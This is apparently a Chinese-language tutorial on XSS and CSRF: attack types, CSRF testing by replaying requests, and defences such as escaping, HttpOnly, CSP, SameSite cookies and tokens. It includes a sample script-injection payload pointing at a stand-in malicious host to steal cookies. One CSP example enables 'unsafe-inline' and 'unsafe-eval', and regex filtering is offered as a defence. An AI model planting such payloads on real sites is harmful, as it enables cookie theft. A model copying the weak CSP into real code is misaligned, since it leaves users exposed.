

## 思维导图


## XSS 跨站脚本攻击（Cross Site Scripting）

在网站中植入恶意代码并执行来实现对网站的攻击。

### 存储型XSS攻击

利用漏洞提交恶意 JavaScript 代码，比如在input, textarea等所有可能输入文本信息的区域，输入`<script src="http://恶意网站"></script>`等，提交后信息会存在服务器中，当用户再次打开网站请求到相应的数据，打开页面，恶意脚本执行，将用户的 Cookie 信息等数据上传到黑客服务器。

提交的包含了恶意代码的内容被存储在服务器上了，即XSS代码被持久化。

### 反射型XSS攻击

用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。 比如搜索时发起的请求包含了恶意代码；或者黑客通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，点击链接时服务器发起请求，恶意代码被反射回来执行。

非持久化，代码被隐藏在链接里，欺骗用户自己去点击链接的时候触发XSS代码。反射型攻击不在服务器存储恶意脚本，这与存储型攻击不同。

### 基于DOM的XSS攻击

基于 DOM 的 XSS 攻击是**不牵涉到页面 Web 服务器**的，这与前面两种攻击不同，它绕过WAF、躲避服务端的检测来对网站进行攻击。

它通过构造恶意URL或者修改页面中DOM元素，把恶意脚本注入到网站的DOM中，和反射型攻击有点像，不过它不会涉及服务器。

比如利用工具(如Burpsuite)扫描目标网站所有的网页并自动测试写好的注入脚本等。

### 防范

- 对提交内容的**非法标签和属性**进行校验并**过滤**，例如`<script>`、onclick等，可以用正则表达式来过滤

- 转义单引号，双引号，尖括号等特殊字符，可以采用htmlencode编码 或者过滤掉这些特殊字符
- 将cookie等敏感信息设置为httponly，禁止Javascript通过`document.cookie`获得
- **CSP**（Content Security Policy）内容安全策略。主要以**白名单**的形式配置可信任的内容来源，在网页中，能够使白名单中的内容正常执行（包含 JS，CSS，Image 等等），而非白名单的内容无法正常执行，从而减少跨站脚本攻击（XSS），当然，也能够减少运营商劫持的内容注入攻击。 配置方式：
  
  

```js
//1、meta
 
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
 
//2、Http 头部
 
Content-Security-Policy:
script-src 'unsafe-inline' 'unsafe-eval' 'self' *.54php.cn *.yunetidc.com *.baidu.com *.cnzz.com *.du
```

## CSRF跨站请求伪造（Cross-site request forgery）

利用网站的请求，让用户在访问网站的时候，进行的操作被执行到其他网站上。可以以用户的名义（拿到用户的权限）去发起一些合法请求来完成某些操作。

### 发起CSRF的三个必要条件

- 目标站点存在CSRF漏洞
- 用户登录过目标站点，且在浏览器上保持有该站点的登录状态
- 需要用户打开一个第三方站点（如黑客的站点）

### get型攻击

通过模拟get请求，向目标网站发起攻击。

### post型攻击

通过模拟post请求，如发起表单提交，向目标网站发起攻击。

### CSRF漏洞测试

检测CSRF漏洞是一项比较繁琐的工作，最简单的方法就是抓取一个正常请求的数据包，**去掉Referer字段后再重新提交**，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

> HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。

**CSRFTester**，**CSRF Request Builder**等是专门针对CSRF漏洞进行检测的工具。

以CSRFTester工具为例，CSRF漏洞检测工具的测试原理如下：使用CSRFTester进行测试时，首先需要抓取我们在浏览器中访问过的所有链接以及所有的表单等信息，然后通过在CSRFTester中修改相应的表单等信息，重新提交，这相当于一次**伪造客户端请求**。如果修改后的测试请求成功被网站服务器接受，则说明存在CSRF漏洞，当然此款工具也可以被用来进行CSRF攻击。

### 防范

**CSRF 通常从第三方网站发起，被攻击的网站无法防止攻击发生**，只能通过增强自己网站针对 CSRF 的防护能力来提升安全性。

上文中讲了 CSRF 的两个特点：

1. CSRF（通常）**发生在第三方域名**。
2. CSRF 攻击者不能获取到 Cookie 等信息，**只是使用**。

针对以上特点，CSRF 可制定以下两种防御策略：

- **自动防御：阻止不明外域的访问**

- - 同源检测
  - Samesite Cookie

- **主动防御：提交时要求附加本域才能获取的信息**

- - Synchrogazer Tokens
  - Double Cookie Defense
  - Custom Header

自动防御即利用 HTTP 协议固有的特性进行自动防护，而主动防御则需要通过编程手段进行防御。

#### 自动防御

##### 同源验证

因为CSRF的攻击很多是第三方网站发起的请求，所以可以直接禁止外域/不信任的域对自己的网站发起请求

在 HTTP 协议中，每一个异步请求都会携带两个Header，用于标记来源域名：

* Origin Header
* Referer Header

通过验证这两个Header是否受信任实现同源检测。  

优点：使用方便，开发简单，一定程度上能预防CSRF攻击；

缺点：这种机制完全依托于浏览器，Referer字段容易被故意篡改，或者被禁用。

##### **Samesite Cookie**

**为 Set-Cookie 响应头新增 Samesite 属性**，它用来标明这个 cookie 是个“同站 cookie”，同站 cookie 只能作为第一方 cookie，不能作为第三方 cookie。

SameSite 有两个属性值，分别是 Strict 和 Lax。

- Samesite=Strict：严格模式，表明这个 cookie 在任何情况下都不可能作为第三方 cookie，绝无例外。
- Samesite=Lax：宽松模式，比 Strict 放宽了点限制。假如这个请求是同步请求（改变了当前页面或者打开了新页面）且同时是个 GET 请求，则这个 cookie 可以作为第三方 cookie。

但 Samesite Cookie 也存在着一些问题：

1. Samesite 的兼容性不是很好，现阶段除了从新版 Chrome 和 Firefox 支持以外，Safari 以及 iOS Safari 都还不支持，现阶段看来暂时还不能普及。
2. 而且，SamesiteCookie 目前有一个致命的缺陷，**不支持子域**。例如，种在 [http://blog.ursb.me](https://link.zhihu.com/?target=http%3A//blog.ursb.me) 下的 Cookie，并不能使用 [http://ursb.me](https://link.zhihu.com/?target=http%3A//ursb.me) 下种植的 SamesiteCookie。这就导致了当我们网站有多个子域名时，不能使用SamesiteCookie 在主域名存储用户登录信息。每个子域名都需要用户重新登录一次。这是不实际的。

#### **主动防御**

CSRF 主动防御措施有以下三种：

1. **Synchronizer Tokens**：**同步表单的 CSRF 校验**，通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
2. **Double Cookie Defense**：**双重验证Cookie**，将 token 设置在 Cookie 中，在提交 POST 请求的时候提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
3. **Custom Header**：信任带有特定的 header（例如 `X-Requested-With: XMLHttpRequest`）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式。


